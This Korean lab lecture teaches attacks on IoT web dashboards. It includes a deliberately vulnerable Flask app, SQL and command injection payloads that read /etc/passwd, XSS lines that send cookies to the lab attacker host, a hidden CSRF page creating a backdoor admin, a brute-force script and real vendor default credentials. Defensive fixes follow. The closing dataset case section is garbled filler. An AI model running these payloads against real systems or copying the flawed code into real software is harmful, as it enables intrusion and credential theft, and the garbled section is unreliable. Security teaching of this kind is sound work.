

# Week 05: IoT 웹 인터페이스 공격

## 학습 목표
- IoT 웹 대시보드의 일반적인 취약점을 파악한다
- IoT 관리 인터페이스에 대한 SQL Injection 공격을 실습한다
- XSS(Cross-Site Scripting)를 통한 IoT 디바이스 제어를 학습한다
- 기본 비밀번호 및 인증 우회 기법을 실습한다
- IoT 웹 인터페이스 보안 강화 방안을 수립한다

## 실습 환경 (공통)

| 서버 | IP | 역할 | 접속 |
|------|-----|------|------|
| attacker | 10.20.30.201 | 공격/분석 머신 | `ssh ccc@10.20.30.201` (pw: 1) |
| secu | 10.20.30.1 | 방화벽/IPS | `ssh ccc@10.20.30.1` |
| web | 10.20.30.80 | IoT 대시보드 | `ssh ccc@10.20.30.80` |
| siem | 10.20.30.100 | SIEM (Wazuh) | `ssh ccc@10.20.30.100` |

## 강의 시간 배분 (3시간)

| 시간 | 내용 | 유형 |
|------|------|------|
| 0:00-0:40 | IoT 웹 인터페이스 취약점 이론 (Part 1) | 강의 |
| 0:40-1:10 | 인증 우회 사례 분석 (Part 2) | 강의/토론 |
| 1:10-1:20 | 휴식 | - |
| 1:20-2:00 | SQLi 실습 (Part 3) | 실습 |
| 2:00-2:40 | XSS 및 CSRF 실습 (Part 4) | 실습 |
| 2:40-2:50 | 휴식 | - |
| 2:50-3:20 | 기본 비밀번호 및 보안 강화 (Part 5) | 실습 |
| 3:20-3:40 | 정리 + 과제 안내 | 정리 |

---

## Part 1: IoT 웹 인터페이스 취약점 이론 (40분)

### 1.1 IoT 웹 인터페이스 특성

일반 웹 애플리케이션과 달리 IoT 웹 인터페이스는 다음 특성이 있다:

| 특성 | 일반 웹 | IoT 웹 |
|------|---------|--------|
| 프레임워크 | Django, Express 등 | GoAhead, Boa, lighttpd |
| 보안 업데이트 | 빈번 | 드묾/없음 |
| 인증 | OAuth, MFA 지원 | 기본 인증, 세션 쿠키 |
| HTTPS | 필수 | 미적용 다수 |
| 입력 검증 | 프레임워크 지원 | 수동 구현 (취약) |
| API | RESTful, GraphQL | CGI 기반 |

### 1.2 IoT 웹 공격 표면

```
┌──────────────────────────────────────┐
│         IoT Web Dashboard            │
├──────────┬───────────┬───────────────┤
│ Login    │ Device    │ Firmware      │
│ Page     │ Control   │ Update        │
│          │ Panel     │ Page          │
├──────────┼───────────┼───────────────┤
│ CGI      │ REST API  │ File Upload   │
│ Scripts  │ Endpoints │ Handler       │
├──────────┴───────────┴───────────────┤
│        SQLite / Config Files         │
└──────────────────────────────────────┘
     ↑           ↑            ↑
   SQLi       Command      Path
              Injection   Traversal
```

### 1.3 주요 취약점 분류

1. **기본 비밀번호 (I1):** admin/admin, root/root
2. **SQL Injection:** 로그인 폼, 검색, API 파라미터
3. **XSS:** 디바이스 이름, 알림 메시지, 로그 뷰어
4. **Command Injection:** 진단 도구 (ping, traceroute, nslookup)
5. **경로 탐색:** 로그 파일 다운로드, 설정 백업
6. **인증 우회:** 숨겨진 URL, API 인증 미적용
7. **CSRF:** 디바이스 설정 변경, 펌웨어 업데이트

---

## Part 2: 인증 우회 사례 분석 (30분)

### 2.1 IoT 인증 우회 패턴

**패턴 1: 하드코딩된 백도어 계정**
```
# 실제 사례: 여러 IP 카메라 제조사
admin:admin
root:vizxv       # Dahua
888888:888888    # Dahua
666666:666666    # Dahua
admin:7ujMko0admin  # D-Link
```

**패턴 2: URL 기반 인증 우회**
```
# 인증 필요
GET /config.html → 302 Redirect to /login.html

# 인증 우회 (CGI 직접 접근)
GET /cgi-bin/config.cgi → 200 OK (설정 데이터)
GET /goform/getConfig → 200 OK
```

**패턴 3: 쿠키 조작**
```
# 취약한 인증 쿠키
Cookie: auth=0          → Cookie: auth=1
Cookie: user=guest      → Cookie: user=admin
Cookie: level=0         → Cookie: level=15
```

### 2.2 IoT 대시보드 구축 (실습용)

```bash
# Flask 기반 취약한 IoT 대시보드
cat << 'PYEOF' > /tmp/iot_dashboard.py
from flask import Flask, request, render_template_string, redirect, session, jsonify
import sqlite3
import os
import subprocess

app = Flask(__name__)
app.secret_key = 'iot-secret-key-2024'

DB_PATH = '/tmp/iot_dashboard.db'

def init_db():
    conn = sqlite3.connect(DB_PATH)
    c = conn.cursor()
    c.execute('''CREATE TABLE IF NOT EXISTS users
                 (id INTEGER PRIMARY KEY, username TEXT, password TEXT, role TEXT)''')
    c.execute('''CREATE TABLE IF NOT EXISTS devices
                 (id INTEGER PRIMARY KEY, name TEXT, ip TEXT, type TEXT, status TEXT)''')
    c.execute('''CREATE TABLE IF NOT EXISTS logs
                 (id INTEGER PRIMARY KEY, timestamp TEXT, device TEXT, message TEXT)''')
    
    c.execute("SELECT COUNT(*) FROM users")
    if c.fetchone()[0] == 0:
        c.execute("INSERT INTO users VALUES (1,'admin','admin123','admin')")
        c.execute("INSERT INTO users VALUES (2,'user','user123','user')")
        c.execute("INSERT INTO users VALUES (3,'operator','oper123','operator')")
        
        c.execute("INSERT INTO devices VALUES (1,'Temp Sensor 01','192.168.1.101','sensor','online')")
        c.execute("INSERT INTO devices VALUES (2,'Camera 01','192.168.1.102','camera','online')")
        c.execute("INSERT INTO devices VALUES (3,'Smart Lock','192.168.1.103','actuator','offline')")
        c.execute("INSERT INTO devices VALUES (4,'HVAC Controller','192.168.1.104','controller','online')")
    
    conn.commit()
    conn.close()

LOGIN_PAGE = '''
<html><head><title>IoT Dashboard Login</title></head>
<body style="font-family:Arial; text-align:center; margin-top:100px;">
<h2>IoT Gateway Dashboard</h2>
<form method="POST" action="/login">
<input name="username" placeholder="Username"><br><br>
<input name="password" type="password" placeholder="Password"><br><br>
<button type="submit">Login</button>
</form>
<p style="color:red">{{ error }}</p>
</body></html>
'''

DASHBOARD_PAGE = '''
<html><head><title>IoT Dashboard</title></head>
<body style="font-family:Arial; margin:20px;">
<h2>IoT Gateway Dashboard</h2>
<p>Welcome, {{ session.username }} ({{ session.role }})</p>
<h3>Devices</h3>
<table border="1" cellpadding="5">
<tr><th>Name</th><th>IP</th><th>Type</th><th>Status</th></tr>

<tr><td>{{ d[1] }}</td><td>{{ d[2] }}</td><td>{{ d[3] }}</td><td>{{ d[4] }}</td></tr>

</table>
<h3>Network Diagnostic</h3>
<form method="POST" action="/diagnostic">
<input name="target" placeholder="IP to ping" value="127.0.0.1">
<button type="submit">Ping</button>
</form>
<pre>{{ ping_result }}</pre>
<h3>Search Devices</h3>
<form method="GET" action="/search">
<input name="q" placeholder="Search device name">
<button type="submit">Search</button>
</form>
<br><a href="/logs">View Logs</a> | <a href="/api/devices">API</a> | <a href="/logout">Logout</a>
</body></html>
'''

@app.route('/')
def index():
    if 'username' not in session:
        return redirect('/login')
    return redirect('/dashboard')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        username = request.form.get('username', '')
        password = request.form.get('password', '')
        # 취약: SQL Injection
        conn = sqlite3.connect(DB_PATH)
        query = f"SELECT * FROM users WHERE username='{username}' AND password='{password}'"
        try:
            user = conn.execute(query).fetchone()
            if user:
                session['username'] = user[1]
                session['role'] = user[3]
                return redirect('/dashboard')
        except:
            pass
        conn.close()
        return render_template_string(LOGIN_PAGE, error="Invalid credentials")
    return render_template_string(LOGIN_PAGE, error=None)

@app.route('/dashboard')
def dashboard():
    if 'username' not in session:
        return redirect('/login')
    conn = sqlite3.connect(DB_PATH)
    devices = conn.execute("SELECT * FROM devices").fetchall()
    conn.close()
    return render_template_string(DASHBOARD_PAGE, session=session, devices=devices, ping_result=None)

@app.route('/diagnostic', methods=['POST'])
def diagnostic():
    if 'username' not in session:
        return redirect('/login')
    target = request.form.get('target', '')
    # 취약: Command Injection
    result = subprocess.getoutput(f"ping -c 2 {target}")
    conn = sqlite3.connect(DB_PATH)
    devices = conn.execute("SELECT * FROM devices").fetchall()
    conn.close()
    return render_template_string(DASHBOARD_PAGE, session=session, devices=devices, ping_result=result)

@app.route('/search')
def search():
    q = request.args.get('q', '')
    conn = sqlite3.connect(DB_PATH)
    # 취약: SQL Injection
    query = f"SELECT * FROM devices WHERE name LIKE '%{q}%'"
    try:
        results = conn.execute(query).fetchall()
    except:
        results = []
    conn.close()
    # 취약: Reflected XSS
    return f"<html><body><h2>Search: {q}</h2><pre>{results}</pre><a href='/dashboard'>Back</a></body></html>"

@app.route('/api/devices')
def api_devices():
    # 취약: 인증 없는 API
    conn = sqlite3.connect(DB_PATH)
    devices = conn.execute("SELECT * FROM devices").fetchall()
    conn.close()
    return jsonify([{"id":d[0],"name":d[1],"ip":d[2],"type":d[3],"status":d[4]} for d in devices])

@app.route('/logout')
def logout():
    session.clear()
    return redirect('/login')

if __name__ == '__main__':
    init_db()
    app.run(host='0.0.0.0', port=8088, debug=True)
PYEOF

pip3 install flask
python3 /tmp/iot_dashboard.py &
```

---

## Part 3: SQL Injection 실습 (40분)

### 3.1 로그인 폼 SQLi

```bash
# 인증 우회 (SQLi)
curl -X POST http://10.20.30.80:8088/login \
  -d "username=admin' OR '1'='1' --&password=anything" -v

# UNION 기반 SQLi (검색 기능)
curl "http://10.20.30.80:8088/search?q=' UNION SELECT 1,username,password,role,'x' FROM users--"

# 테이블 열거
curl "http://10.20.30.80:8088/search?q=' UNION SELECT 1,name,sql,'x','y' FROM sqlite_master--"

# sqlmap 자동화
sqlmap -u "http://10.20.30.80:8088/search?q=test" \
  --dbms=sqlite --dump --batch
```

### 3.2 Command Injection

```bash
# 진단 도구를 통한 명령어 주입
curl -X POST http://10.20.30.80:8088/diagnostic \
  -d "target=127.0.0.1; cat /etc/passwd" \
  --cookie "session=<session_cookie>"

# 리버스 쉘 (교육 환경에서만)
curl -X POST http://10.20.30.80:8088/diagnostic \
  -d "target=127.0.0.1; id; whoami; uname -a" \
  --cookie "session=<session_cookie>"

# 파이프 이용
curl -X POST http://10.20.30.80:8088/diagnostic \
  -d "target=127.0.0.1 | ls -la /etc/" \
  --cookie "session=<session_cookie>"
```

### 3.3 미인증 API 접근

```bash
# 인증 없이 API 접근 가능 (취약)
curl -s http://10.20.30.80:8088/api/devices | python3 -m json.tool

# API 열거
for endpoint in devices users config backup logs; do
  echo "=== /api/$endpoint ==="
  curl -s "http://10.20.30.80:8088/api/$endpoint" 2>/dev/null | head -3
done
```

---

## Part 4: XSS 및 CSRF 실습 (40분)

### 4.1 Reflected XSS

```bash
# 검색 기능을 통한 XSS
# 브라우저에서 접근:
# http://10.20.30.80:8088/search?q=<script>alert('XSS')</script>

# 쿠키 탈취 페이로드
# http://10.20.30.80:8088/search?q=<script>new Image().src='http://10.20.30.201:8888/?c='+document.cookie</script>

# IoT 특화 XSS: 디바이스 제어
# <script>fetch('/api/device/3/control',{method:'POST',body:'{"action":"unlock"}'})</script>

# curl로 XSS 테스트
curl -s "http://10.20.30.80:8088/search?q=%3Cscript%3Ealert(1)%3C/script%3E" | grep -o "<script.*</script>"
```

### 4.2 Stored XSS (디바이스 이름)

```bash
# 디바이스 이름에 XSS 페이로드 저장
# IoT 대시보드에서 디바이스 이름을 다음으로 변경:
# 

# 로그 메시지를 통한 Stored XSS
# MQTT 메시지에 XSS 삽입 → 대시보드 로그에 표시
mosquitto_pub -h 10.20.30.80 -t "device/alert" \
  -m '<script>document.location="http://10.20.30.201/?c="+document.cookie</script>'
```

### 4.3 CSRF 공격

```bash
# IoT 설정 변경 CSRF
cat << 'EOF' > /tmp/csrf_iot.html
<html>
<body>
<h1>Free IoT Security Scanner!</h1>
<!-- 숨겨진 CSRF: DNS 서버 변경 -->


<!-- 숨겨진 CSRF: 새 관리자 추가 -->
<iframe style="display:none" name="csrf_frame"></iframe>
<form id="csrf_form" action="http://10.20.30.80:8088/api/users" method="POST" target="csrf_frame">
  <input type="hidden" name="username" value="backdoor">
  <input type="hidden" name="password" value="hack123">
  <input type="hidden" name="role" value="admin">
</form>
<script>document.getElementById('csrf_form').submit();</script>
</body>
</html>
EOF
```

---

## Part 5: 기본 비밀번호 및 보안 강화 (30분)

### 5.1 기본 비밀번호 스캔

```bash
# IoT 기본 비밀번호 브루트포스
cat << 'PYEOF' > /tmp/iot_brute.py
import requests

target = "http://10.20.30.80:8088/login"

credentials = [
    ("admin", "admin"), ("admin", "admin123"), ("admin", "password"),
    ("admin", "1234"), ("root", "root"), ("root", "toor"),
    ("user", "user"), ("admin", ""), ("root", ""),
    ("operator", "operator"), ("admin", "admin1234"),
    ("support", "support"), ("guest", "guest"),
]

for user, pwd in credentials:
    r = requests.post(target, data={"username": user, "password": pwd}, allow_redirects=False)
    if r.status_code == 302 and '/dashboard' in r.headers.get('Location', ''):
        print(f"[+] SUCCESS: {user}:{pwd}")
    else:
        print(f"[-] Failed: {user}:{pwd}")
PYEOF

python3 /tmp/iot_brute.py
```

### 5.2 보안 강화 방안

| 취약점 | 대책 | 구현 |
|--------|------|------|
| 기본 비밀번호 | 초기 설정 시 변경 강제 | 첫 로그인 시 비밀번호 변경 |
| SQLi | Parameterized Query | `cursor.execute("SELECT * FROM users WHERE username=?", (user,))` |
| XSS | 출력 인코딩 | Jinja2 `{{ var\|e }}` |
| Command Injection | 화이트리스트 검증 | IP 형식만 허용 |
| CSRF | CSRF 토큰 | Flask-WTF 사용 |
| 미인증 API | 인증 미들웨어 | `@login_required` 데코레이터 |
| HTTP | HTTPS 적용 | TLS 인증서 설정 |

### 5.3 안전한 코드 예시

```python
# 안전한 로그인 (Parameterized Query)
@app.route('/login', methods=['POST'])
def secure_login():
    username = request.form.get('username', '')
    password = request.form.get('password', '')
    
    conn = sqlite3.connect(DB_PATH)
    user = conn.execute(
        "SELECT * FROM users WHERE username=? AND password=?",
        (username, password)
    ).fetchone()
    
    if user:
        session['username'] = user[1]
        return redirect('/dashboard')
    return render_template('login.html', error="Invalid credentials")

# 안전한 진단 (입력 검증)
@app.route('/diagnostic', methods=['POST'])
def secure_diagnostic():
    import re
    target = request.form.get('target', '')
    
    # IP 주소 형식만 허용
    if not re.match(r'^(\d{1,3}\.){3}\d{1,3}$', target):
        return "Invalid IP format", 400
    
    result = subprocess.run(
        ['ping', '-c', '2', target],
        capture_output=True, text=True, timeout=10
    )
    return f"<pre>{result.stdout}</pre>"
```

---

## Part 6: 과제 안내 (20분)

### 과제

- IoT 대시보드에서 SQLi를 통해 모든 사용자 계정 정보를 추출하시오
- Command Injection으로 서버의 시스템 정보를 수집하시오
- 발견된 취약점에 대한 보안 패치를 Python 코드로 작성하시오

---

## 참고 자료

- OWASP IoT Top 10: https://owasp.org/www-project-internet-of-things/
- OWASP Testing Guide: https://owasp.org/www-project-web-security-testing-guide/
- SQLMap: https://sqlmap.org/
- Burp Suite: https://portswigger.net/burp

---

## 실제 사례 (WitFoo Precinct 6 — MQTT 공격)

> 출처: WitFoo Precinct 6 Cybersecurity Dataset (Apache 2.0)
> 본 lecture *MQTT 공격* 학습 항목 매칭.

### MQTT 공격 의 dataset 흔적 — "broker abuse"

dataset 의 정상 운영에서 *broker abuse* 신호의 baseline 을 알아두면, *MQTT 공격* 시도 시 발생하는 anomaly 를 정량으로 탐지할 수 있다. 핵심 정량 지표는 — default password.



### Case 1: dataset 정량 지표

| 항목 | 값 |
|---|---|
| 핵심 신호 | broker abuse |
| 정량 baseline | default password |
| 학습 매핑 | Mosquitto exploit |

**자세한 해석**: Mosquitto exploit. 이 차이를 정량으로 측정해야 *공격 시도와 정상 운영의 구분* 이 가능. 학생이 baseline 숫자를 외워두면 — 운영 환경에서 anomaly 를 즉시 탐지할 수 있다.

### Case 2: 실전 적용 시나리오

| 단계 | dataset 활용 |
|---|---|
| 시도 식별 | broker abuse 의 spike |
| 정상 vs 이상 | baseline 대비 비율 |
| 룰 작성 | Suricata / Wazuh / Sigma |
| 검증 | dataset 재실행 |

**자세한 해석**: 운영 환경 룰 작성은 — *baseline 측정 → 임계 결정 → 룰 작성 → dataset 검증* 의 4 단계. 한 단계라도 빠지면 false positive 폭증.

### 이 사례에서 학생이 배워야 할 3가지

1. **MQTT 공격 = broker abuse 의 anomaly** — 정량 신호로 탐지.
2. **baseline 숫자 외우기** — default password.
3. **4 단계 룰 작성** — 측정 → 임계 → 룰 → 검증.

**학생 액션**: MQTT pentesting.

